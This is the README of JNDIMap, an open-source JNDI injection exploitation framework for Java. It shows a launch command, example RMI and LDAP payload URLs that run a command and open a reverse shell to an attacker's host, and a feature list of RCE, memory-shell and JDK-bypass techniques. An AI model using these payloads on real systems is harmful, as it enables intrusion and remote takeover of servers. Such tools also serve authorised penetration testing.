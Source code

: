 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap is a powerful JNDI injection exploitation framework that supports RMI, LDAP and LDAPS protocols, including various bypass methods for high-version JDK restrictions
</p>
<p align="center"><a href="README.md">简体中文</a> | English</p>
</p>

## 🚀 Quick Start

Download JNDIMap from the [Release](https://github.com/X1r0z/JNDIMap/releases) page, and pass the `-i` parameter to specify the external IP when running

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

Execute command or reverse shell on the target machine

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 Features

- DNSLog
- Command execution
- Spawn reverse shell
- Spawn Meterpreter 
- Load custom Java bytecode
- MemShell injection (based on [MemShellParty](https://github.com/ReaJason/MemShellParty))
- High version JDK Bypass
  - BeanFactory Bypass (Tomcat/Groovy/XStream, etc.)
  - JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Tomcat Blind XXE
- LDAP Deserialization (including common gadgets)
- Customize JNDI payload based on Nashorn JS engine
- LDAP trustSerialData Bypass
- JShell payload Bypass (Nashorn JS Engine Alternative)
- UTF-8 Overlong Encoding Bypass

## 📖 Documentation

> Full documentation: [USAGE.en.md](USAGE.en.md)

- [Usage](USAGE.en.md#usage)
- [URL Format](USAGE.en.md#url-format)
- [Basic Functions](USAGE.en.md#basic-functions)
- [MemShell Injection](USAGE.en.md#memshell-injection)
- [BeanFactory Bypass](USAGE.en.md#beanfactory-bypass)
  - [Tomcat ELProcessor](USAGE.en.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.en.md#groovy-classloadershell)
  - [XStream](USAGE.en.md#xstream)
  - [SnakeYaml](USAGE.en.md#snakeyaml)
  - [BeanShell](USAGE.en.md#beanshell)
  - [MVEL](USAGE.en.md#mvel)
  - [MLet](USAGE.en.md#mlet)
  - [NativeLibLoader](USAGE.en.md#nativelibloader)
- [JDBC RCE](USAGE.en.md#jdbc-rce)
  - [MySQL](USAGE.en.md#mysql)
    - [MySQL JDBC Deserialization RCE](USAGE.en.md#mysql-jdbc-deserialization-rce)
    - [MySQL Client Arbitrary File Read](USAGE.en.md#mysql-client-arbitrary-file-read)
  - [PostgreSQL](USAGE.en.md#postgresql)
  - [H2 Database](USAGE.en.md#h2)
  - [Apache Derby](USAGE.en.md#derby)
    - [Derby SQL RCE](USAGE.en.md#derby-sql-rce)
    - [Derby Master-Slave Replication Deserialization RCE](USAGE.en.md#derby-master-slave-replication-deserialization-rce)
- [Tomcat Blind XXE](USAGE.en.md#tomcat-blind-xxe)
- [LDAP Deserialization](USAGE.en.md#ldap-deserialization)
- [Script](USAGE.en.md#script)
- [Advanced Techniques](USAGE.en.md#advanced-techniques)
  - [Use Reference Only](USAGE.en.md#use-reference-only)
  - [Confusing Class Name](USAGE.md#confusing-class-name)
  - [JShell Payload](USAGE.en.md#jshell-payload)
  - [UTF-8 Overlong Encoding](USAGE.en.md#utf-8-overlong-encoding)

## ⚙️ Compile

The version of [Releases](https://github.com/X1r0z/JNDIMap/releases) may be outdated, it is recommended to pull the source code and compile it yourself when using it (based on JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 References & Acknowledgements

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

[https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/)

[https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

[https://github.com/Whoopsunix/utf-8-overlong-encoding](https://github.com/Whoopsunix/utf-8-overlong-encoding)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>